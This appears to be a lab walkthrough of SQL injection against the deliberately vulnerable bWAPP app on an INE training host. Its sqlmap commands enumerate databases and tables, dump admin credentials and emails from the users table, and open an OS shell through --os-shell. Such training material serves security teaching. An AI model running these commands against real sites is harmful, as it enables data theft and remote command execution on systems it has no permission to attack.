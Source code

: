 # SQL Injection

## GET Request

### Search

![1.1](./imgs/1.1.png)

-u=URL<br>
--cookie=COOKIE_FROM_BURP_SUITE<br>
-p=TARGET_PARAMETER
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title
```

![1.2](./imgs/1.2.png)

SQL syntax error means that it is vulnerable to SQLi
![1.3](./imgs/1.3.png)

--dbs=GET_DATABASES
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs
```

![1.4](./imgs/1.4.png)

-D=DATABASE<br>
--tables=GET_TABLES
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables
```

![1.5](./imgs/1.5.png)
-T=TABLE<br>
--columns=GET_TABLE_COLUMNS
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
```

![1.6](./imgs/1.6.png)

-C=COLUMNS<br>
--dump=SHOW_DATA
```
sqlmap -u "http://demo.ine.local/sqli_1.php?title=batman&action=search" --cookie="PHPSESSID=u84o0m5b6knt1ksrpj365a6f31; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
```

![1.7](./imgs/1.7.png)

### Select

![3.1](./imgs/3.1.png)

```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0"
```

![3.2](./imgs/3.2.png)

SQL syntax error means that it is vulnerable to SQLi
![3.3](./imgs/3.3.png)

```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs
```

![3.4](./imgs/3.4.png)

```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables
```

![3.5](./imgs/3.5.png)

```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables -T users --columns
```

![3.6](./imgs/3.6.png)

```
sqlmap -u "http://demo.ine.local/sqli_2.php?movie=10&action=go" -p movie --cookie="PHPSESSID=v0auu4dm3tt1rt46kj1ftigjj3; security_level=0" --dbs -D bWAPP --tables -T users -C admin,email,password --dump
```

![3.7](./imgs/3.7.png)

## POST Request

### Search

Save POST request to file
![4.1](./imgs/2.1.png)

```
sqlmap -r request -p title
```
![4.2](./imgs/2.2.png)

SQL syntax error means that it is vulnerable to SQLi
![4.3](./imgs/2.3.png)

Get a shell using SQLMap<br>
```
sqlmap -r request -p title -os-shell
```
![4.4](./imgs/2.4.png)

### Select
Save POST request to file
![2.1](./imgs/2.1.png)

-r=FILE_NAME
```
sqlmap -r request -p title
```
![2.2](./imgs/2.2.png)

SQL syntax error means that it is vulnerable to SQLi
![2.3](./imgs/2.3.png)

Get a shell using SQLMap<br>
--os-shell=GET_SHELL
```
sqlmap -r request -p title -os-shell
```
![2.4](./imgs/2.4.png)



